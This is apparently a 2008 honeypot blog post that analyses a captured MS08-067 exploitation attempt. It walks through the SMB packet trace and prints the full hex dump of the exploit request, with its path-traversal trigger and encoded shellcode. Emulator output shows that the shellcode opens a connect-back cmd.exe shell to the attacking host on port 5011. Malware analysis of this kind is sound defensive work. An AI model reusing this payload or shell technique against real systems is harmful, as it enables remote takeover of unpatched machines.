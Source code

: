 ```yaml
---
title: "MS08-067 exploitation in the wild"
date: "2008-11-04"
categories: 
  - "analysis"
---
```


(This article was originally published at [http://honeytrap.mwcollect.org/msexploit](http://honeytrap.mwcollect.org/msexploit).)

  

If you followed IT security related blogs or mailinglists lately, you are aware that a critical [server service vulnerability](http://www.microsoft.com/technet/security/bulletin/ms08-067.mspx) in Microsoft operating systems was published recently. I'm not going to talk about the details here, there are great resources available [elsewhere](http://www.dontstuffbeansupyournose.com/?p=35) (and the "_reversing the ms08-067 patch_" article isn't the only advice about exploiting holes you get on that page).

  

OK, what have we got this time? One of our [honeytrap](http://honeytrap.mwcollect.org) sensors caught an MS08-067 exploitation attempt today which we take as an example to show how to perform a quick analysis and check what it does. If you want to play along, get the (sanitized) pcap from [here](http://honeytrap.mwcollect.org/data/ms08-067.pcap).

  

Now the first thing we would normally do is take a look at the packet trace. [Some people](http://wikipedia.org/wiki/Chuck_Norris) are said to be able to decode hex SMB messages in their head - as we aren't one of those, we might prefer the amazing [wireshark](http://www.wireshark.org/) (or tshark for the command line guys) that does the decoding for us. Here's the list of packets (shortened and wrapped):

  

  
`1 A -> V TCP inovaport5 > microsoft-ds [SYN] Seq=0 Win=65535 Len=0 MSS=1460  
2 V -> A TCP microsoft-ds > inovaport5 [SYN, ACK] Seq=0 Ack=1 Win=5840 Len=0 MSS=1460  
3 A -> V TCP inovaport5 > microsoft-ds [ACK] Seq=1 Ack=1 Win=65535 Len=0  
4 A -> V SMB Negotiate Protocol Request  
5 V -> A TCP microsoft-ds > inovaport5 [ACK] Seq=1 Ack=138 Win=5840 Len=0  
6 V -> A SMB Negotiate Protocol Response  
7 A -> V SMB Session Setup AndX Request, NTLMSSP_NEGOTIATE  
8 V -> A TCP microsoft-ds > inovaport5 [ACK] Seq=184 Ack=408 Win=6432 Len=0  
9 V -> A SMB Session Setup AndX Response, NTLMSSP_CHALLENGE,  
Error: STATUS_MORE_PROCESSING_REQUIRED  
10 A -> V SMB Session Setup AndX Request, NTLMSSP_AUTH, User: \  
11 V -> A TCP microsoft-ds > inovaport5 [ACK] Seq=588 Ack=706 Win=7504 Len=0  
12 V -> A SMB Session Setup AndX Response  
13 A -> V SMB Tree Connect AndX Request, Path: \\192.168.111.11\IPC$  
14 V -> A TCP microsoft-ds > inovaport5 [ACK] Seq=772 Ack=804 Win=7504 Len=0  
15 V -> A SMB Tree Connect AndX Response  
16 A -> V SMB NT Create AndX Request, Path: \browser  
17 V -> A TCP microsoft-ds > inovaport5 [ACK] Seq=832 Ack=910 Win=7504 Len=0  
18 V -> A SMB NT Create AndX Response, FID: 0x4008  
19 A -> V DCERPC Bind: call_id: 1 SRVSVC V3.0  
20 V -> A TCP microsoft-ds > inovaport5 [ACK] Seq=971 Ack=1070 Win=7504 Len=0  
21 V -> A DCERPC Bind_ack: call_id: 1 accept max_xmit: 4280 max_recv: 4280  
22 A -> V SRVSVC NetPathCanonicalize request  
23 V -> A TCP microsoft-ds > inovaport5 [ACK] Seq=1099 Ack=1642 Win=8580 Len=0  
24 V -> A SRVSVC NetPathCanonicalize response,  
Error: Unknown DOS error 0x5c455000[Long frame (8 bytes)]  
25 A -> V SRVSVC NetPathCanonicalize request  
26 V -> A TCP microsoft-ds > inovaport5 [ACK] Seq=1199 Ack=1894 Win=8580 Len=0  
27 V -> A SRVSVC NetPathCanonicalize response,  
Error: Unknown DOS error 0x5c455000[Long frame (8 bytes)]  
28 A -> V SMB Close Request, FID: 0x4008  
29 V -> A TCP microsoft-ds > inovaport5 [ACK] Seq=1299 Ack=1939 Win=8580 Len=0  
30 V -> A SMB Close Response, FID: 0x4008  
31 A -> V TCP inovaport5 > microsoft-ds [ACK] Seq=1939 Ack=1338 Win=64198 Len=0  
32 V -> A TCP microsoft-ds > inovaport5 [FIN, ACK] Seq=1338 Ack=1939 Win=8580 Len=0  
33 A -> V TCP inovaport5 > microsoft-ds [FIN, ACK] Seq=1939 Ack=1339 Win=64198 Len=0  
34 V -> A TCP microsoft-ds > inovaport5 [ACK] Seq=1339 Ack=1940 Win=8580 Len=0  
`  

  

Allright, packet 19 contains a bind call for the `srvsvc` API that contains the vulnerable `NetPathCanonicalize` function which gets called for the first time in packet 22 and contains the following payload:

  

  
`  
00000000 00 00 00 00 cf 00 00 00 00 00 00 00 cf 00 00 00 |................|  
00000010 5c 00 41 00 5c 00 2e 00 2e 00 5c 00 2e 00 2e 00 |\.A.\.....\.....|  
00000020 5c 00 90 90 90 90 90 90 90 90 90 90 90 90 90 90 |\...............|  
00000030 90 90 2b c9 83 e9 b8 d9 ee d9 74 24 f4 5b 81 73 |..+.......t$.[.s|  
00000040 13 ba 1a cd 77 83 eb fc e2 f4 46 70 26 3a 52 e3 |....w.....Fp&:R.|  
00000050 32 88 45 7a 46 1b 9e 3e 46 32 86 91 b1 72 c2 1b |2.EzF..>F2...r..|  
00000060 22 fc f5 02 46 28 9a 1b 26 3e 31 2e 46 76 54 2b |"...F(..&>1.FvT+|  
00000070 0d ee 16 9e 0d 03 bd db 07 7a bb d8 26 83 81 4e |.........z..&..N|  
00000080 e9 5f cf ff 46 28 9e 1b 26 11 31 16 86 fc e5 06 |._..F(..&.1.....|  
00000090 cc 9c b9 36 46 fe d6 3e d1 16 79 2b 16 13 31 59 |...6F..>..y+..1Y|  
000000a0 fd fc fa 16 46 07 a6 b7 46 37 b2 44 a5 f9 f4 14 |....F...F7.D....|  
000000b0 21 27 45 cc ab 24 dc 72 fe 45 d2 6d be 45 e5 4e |!'E..$.r.E.m.E.N|  
000000c0 32 a7 d2 d1 20 8b 81 4a 32 a1 e5 93 28 11 3b f7 |2... ..J2...(.;.|  
000000d0 c5 75 ef 70 cf 88 6a 72 14 7e 4f b7 9a 88 6c 49 |.u.p..jr.~O...lI|  
000000e0 9e 24 e9 59 9e 34 e9 e5 1d 1f 87 c0 5e 35 dc 72 |.$.Y.4......^5.r|  
000000f0 de e4 dc 49 44 96 2f 72 21 8e 10 7a 9a 88 6c 70 |...ID./r!..z..lp|  
00000100 dd 26 ef e5 1d 11 d0 7e ab 1f d9 77 a7 27 e3 33 |.&.....~...w.'.3|  
00000110 01 fe 5d 70 89 fe 58 2b 0d 84 10 8f 44 8a 44 58 |..]p..X+....D.DX|  
00000120 e0 89 f8 36 40 0d 82 b1 66 dc d2 68 33 c4 ac e5 |...6@...f..h3...|  
00000130 b8 5f 45 cc 96 20 e8 4b 9c 26 d0 1b 9c 26 ef 4b |._E.. .K.&...&.K|  
00000140 32 a7 d2 b7 14 72 74 49 32 a1 d0 e5 32 40 45 ca |2....rtI2...2@E.|  
00000150 a5 90 c3 dc b4 88 cf 1e 32 a1 45 6d 31 88 6a 72 |........2.Em1.jr|  
00000160 3d fd be 45 9e 88 6c e5 1d 77 41 41 41 41 41 41 |=..E..l..wAAAAAA|  
00000170 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 |AAAAAAAAAAAAAAAA|  
00000180 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 |AAAAAAAAAAAAAAAA|  
00000190 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 |AAAAAAAAAAAAAAAA|  
000001a0 41 41 41 41 41 41 41 41 41 41 cc 41 00 00 00 00 |AAAAAAAAAA.A....|  
000001b0 01 00 00 00 02 00 00 00 00 00 00 00 02 00 00 00 |................|  
000001c0 5c 00 00 00 01 00 00 00 01 00 00 00 |\...........|  
`  

Ah, there is the `\..\..` pattern at offset 0x14 that triggers the vulnerability. And hey, there seems to be some shellcode right behind it. Allright, as usual, we get our copy of [libemu](http://libemu.mwcollect.org)'s `sctest` utility out and feed it with the packet payload:

  
  

`  
$ /opt/libemu/bin/sctest -s 169762 -gS < payload  
verbose = 0  
success offset = 0x00000032  
hooked ExitProcess  
hooked ExitThread  
stepcount 169762  
HMODULE LoadLibraryA (  
LPCTSTR lpFileName = 0x0012fe88 =>  
= "ws2_32";  
) = 0x71a10000;  
int WSAStartup (  
WORD wVersionRequested = 2;  
LPWSADATA lpWSAData = 1244284;  
) = 0;  
SOCKET WSASocket (  
int af = 2;  
int type = 1;  
int protocol = 0;  
LPWSAPROTOCOL_INFO lpProtocolInfo = 0;  
GROUP g = 0;  
DWORD dwFlags = 0;  
) = 66;  
int connect (  
SOCKET s = 66;  
struct sockaddr_in * name = 0x0012fe74 =>  
struct = {  
short sin_family = 2;  
unsigned short sin_port = 37651 (port=5011);  
struct in_addr sin_addr = {  
unsigned long s_addr = 1116985917 (host=61.218.147.66);  
};  
char sin_zero = " ";  
};  
int namelen = 16;  
) = 0;  
BOOL CreateProcess (  
LPCWSTR pszImageName = 0x00000000 =>  
= "gby hand;  
LPCWSTR pszCmdLine = 0x0012fe68 =>  
= "cmd";  
LPSECURITY_ATTRIBUTES psaProcess = 0x00000000 =>  
none;  
LPSECURITY_ATTRIBUTES psaThread = 0x00000000 =>  
none;  
BOOL fInheritHandles = 1;  
DWORD fdwCreate = 0;  
LPVOID pvEnvironment = 0x00000000 =>  
none;  
LPWSTR pszCurDir = 0x00000000 =>  
none;  
struct LPSTARTUPINFOW psiStartInfo = 0x0012fe14 =>  
struct = {  
DWORD cb = 68;  
LPTSTR lpReserved = 0;  
LPTSTR lpDesktop = 0;  
LPTSTR lpTitle = 0;  
DWORD dwX = 0;  
DWORD dwY = 0;  
DWORD dwXSize = 0;  
DWORD dwYSize = 0;  
DWORD dwXCountChars = 0;  
DWORD dwYCountChars = 0;  
DWORD dwFillAttribute = 0;  
DWORD dwFlags = 257;  
WORD wShowWindow = 0;  
WORD cbReserved2 = 0;  
LPBYTE lpReserved2 = 0;  
HANDLE hStdInput = 66;  
HANDLE hStdOutput = 66;  
HANDLE hStdError = 66;  
};  
struct PROCESS_INFORMATION pProcInfo = 0x0052f74c =>  
struct = {  
HANDLE hProcess = 4711;  
HANDLE hThread = 4712;  
DWORD dwProcessId = 4712;  
DWORD dwThreadId = 4714;  
};  
) = -1;  
DWORD WaitForSingleObject (  
HANDLE hHandle = 4712;  
DWORD dwMilliseconds = -1;  
) = 0;  
int closesocket (  
SOCKET s = 66;  
) = 0;  
LPTOP_LEVEL_EXCEPTION_FILTER SetUnhandledExceptionFilter (  
LPTOP_LEVEL_EXCEPTION_FILTER lpTopLevelExceptionFilter = 0x7c800000 =>  
none;  
) = 0x7c81cdda;  
`  

There we are. It's a connectback shell which tries to reach 61.218.147.66 (actually the attacking host) at port 5011/tcp and binds the socket to a cmd.exe. This is typical bot behavior, so what we see here is most likely a spreading piece of malware. Unfortunately we've been to slow and the port was already closed, so we didn't manage to catch a sample...
